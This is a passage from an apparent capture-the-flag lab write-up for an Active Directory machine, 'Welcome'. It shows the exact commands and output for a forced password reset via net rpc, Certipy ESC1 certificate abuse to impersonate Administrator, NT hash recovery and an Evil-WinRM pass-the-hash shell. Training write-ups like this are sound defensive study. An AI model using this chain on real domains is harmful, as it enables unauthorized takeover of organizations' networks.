SMB         10.1.92.228      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.92.228      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.92.228      445    DC01             SYSVOL          READ            Logon server share 
```



*NetExec confirming valid credentials for i.park*

We are now operating as `i.park`. Let's head back to BloodHound to see what this account opens up.

## BloodHound Enumeration (Part 2)

We mark `i.park` as owned and check outbound relationships. `i.park` has `ForceChangePassword` over both `svc_ca` and `svc_web`.



*BloodHound showing i.park has ForceChangePassword over svc_ca and svc_web*

Looking at both targets, `svc_ca` is the priority. This account is a member of the `Certificate Service DCOM` group, which strongly suggests involvement with AD CS.



*BloodHound showing svc_ca membership in Certificate Service DCOM*

## Access as svc_ca

We use the same Force Password Change technique, this time authenticating as `i.park` to reset `svc_ca`'s password.

```
net rpc password "svc_ca" "0xB1rdWasHere1337" -U "WELCOME.local"/"i.park"%"0xB1rdWasHere1337" -S "10.1.92.228"
```



*Force Password Change on svc_ca via net rpc*

No output again. We confirm with NetExec.

```
nxc smb WELCOME.local -u 'svc_ca' -p '0xB1rdWasHere1337' --shares
```

```
SMB         10.1.92.228      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.92.228      445    DC01             [+] WELCOME.local\svc_ca:0xB1rdWasHere1337 
SMB         10.1.92.228      445    DC01             [*] Enumerated shares
SMB         10.1.92.228      445    DC01             Share           Permissions     Remark
SMB         10.1.92.228      445    DC01             -----           -----------     ------
SMB         10.1.92.228      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.92.228      445    DC01             C$                              Default share
SMB         10.1.92.228      445    DC01             Human Resources READ            
SMB         10.1.92.228      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.92.228      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.92.228      445    DC01             SYSVOL          READ            Logon server share 
```



*NetExec confirming valid credentials for svc_ca*

We now control the `svc_ca` account. Given its membership in `Certificate Service DCOM`, let's enumerate the AD CS environment.

## Certipy Enumeration

We run [Certipy](https://github.com/ly4k/Certipy) to enumerate the Certificate Authority and check for vulnerable templates.

```
certipy-ad find -u 'svc_ca@WELCOME.local' -p '0xB1rdWasHere1337' -dc-ip 10.1.92.228 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                             : WELCOME-CA
    DNS Name                            : DC01.WELCOME.local
    Certificate Subject                 : CN=WELCOME-CA, DC=WELCOME, DC=local
    Certificate Serial Number           : 6E7A025A45F4E6A14E1F08B77737AFD9
    Certificate Validity Start          : 2025-09-13 16:39:33+00:00
    Certificate Validity End            : 2030-09-13 16:49:33+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : WELCOME.LOCAL\Administrators
      Access Rights
        ManageCa                        : WELCOME.LOCAL\Administrators
                                          WELCOME.LOCAL\Domain Admins
                                          WELCOME.LOCAL\Enterprise Admins
        ManageCertificates              : WELCOME.LOCAL\Administrators
                                          WELCOME.LOCAL\Domain Admins
                                          WELCOME.LOCAL\Enterprise Admins
        Enroll                          : WELCOME.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : Welcome-Template
    Display Name                        : Welcome-Template
    Certificate Authorities             : WELCOME-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-09-14T03:12:52+00:00
    Template Last Modified              : 2025-10-30T02:19:35+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : WELCOME.LOCAL\svc ca
                                          WELCOME.LOCAL\Domain Admins
                                          WELCOME.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : WELCOME.LOCAL\Administrator
        Full Control Principals         : WELCOME.LOCAL\Domain Admins
                                          WELCOME.LOCAL\Enterprise Admins
        Write Owner Principals          : WELCOME.LOCAL\Domain Admins
                                          WELCOME.LOCAL\Enterprise Admins
        Write Dacl Principals           : WELCOME.LOCAL\Domain Admins
                                          WELCOME.LOCAL\Enterprise Admins
        Write Property Enroll           : WELCOME.LOCAL\Domain Admins
                                          WELCOME.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : WELCOME.LOCAL\svc ca
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```



*Certipy identifying ESC1 on the Welcome-Template with svc_ca enrollment rights*

Certipy flags an ESC1 vulnerability on the `Welcome-Template`. The CA name is `WELCOME-CA` and the template is enabled with `svc_ca` holding enrollment rights.

## ESC1

ESC1 is a certificate template misconfiguration where the template allows the requester to specify an arbitrary identity in the Subject Alternative Name (SAN) and includes a client authentication EKU. When a user with enrollment rights requests a certificate from this template, they can specify any UPN in the SAN, including a domain admin. The CA issues the certificate without manager approval, and the attacker authenticates to the domain as the impersonated user via PKINIT.

The `Welcome-Template` has `Enrollee Supplies Subject` set to `True`, `Client Authentication` enabled, no manager approval, and zero authorized signatures required. `svc_ca` has enrollment rights. This is a textbook ESC1.

We request a certificate as `Administrator`, specifying the Administrator UPN and SID in the request. The SID can be pulled from the Administrator object in BloodHound under the Object Information tab.

```
certipy-ad req -u 'svc_ca@WELCOME.local' -p '0xB1rdWasHere1337' -dc-ip '10.1.92.228' -target 'DC01.WELCOME.LOCAL' -ca 'WELCOME-CA' -template 'Welcome-Template' -upn 'administrator@WELCOME.local' -sid 'S-1-5-21-141921413-1529318470-1830575104-500'
```



*Certipy requesting a certificate as Administrator via ESC1*

The certificate is issued and saved as `administrator.pfx`.

## Certipy Auth

With the PFX in hand, we authenticate to the domain using Certipy. Successful authentication results in a Kerberos TGT for the `Administrator` account and recovers the NTLM hash.

```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.1.92.228'
```

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@WELCOME.local'
[*]     SAN URL SID: 'S-1-5-21-141921413-1529318470-1830575104-500'
[*] Using principal: 'administrator@welcome.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@welcome.local': aad3b435b51404eeaad3b435b51404ee:0cf1b799460a39c852068b7c0574677a
```



*Certipy PKINIT authentication: TGT and NT hash recovered for Administrator*

Certipy retrieves the NT hash `0cf1b799460a39c852068b7c0574677a` for the Administrator account. We now have everything we need to log in.

## Shell as Administrator (root.txt)

Both RDP and WinRM are available on the DC. We connect with Evil-WinRM using the recovered hash.

```
evil-winrm -i '10.1.92.228' -u 'Administrator' -H '0cf1b799460a39c852068b7c0574677a'
```



*Evil-WinRM session as Administrator on DC01*

We grab `root.txt` from the Administrator's desktop and the domain is fully compromised.



*root.txt captured from the Administrator desktop*

## Final Thoughts

Welcome is a solid easy-difficulty lab that covers a well-rounded AD attack chain. The engagement starts with phishing credentials and chains through SMB enumeration, PDF password cracking, password spraying, BloodHound-guided ACL abuse, and ESC1 exploitation. I liked that the Targeted Kerberoast path was a dead end, forcing a pivot to Force Password Change. That kind of trial-and-error is realistic and reinforces why it pays to have multiple abuse paths in mind.

The key takeaways are keeping default passwords out of shared documents, auditing `ForceChangePassword` and `GenericAll` permissions in Active Directory, and reviewing certificate templates for `Enrollee Supplies Subject`. ESC1 is one of the most commonly exploited AD CS misconfigurations, and any template where the requester controls the SAN should be locked down or removed unless there is a clear operational need. Tools like BloodHound and Certipy make these paths visible, and defenders should be running the same queries attackers do.

— 0xB1rd
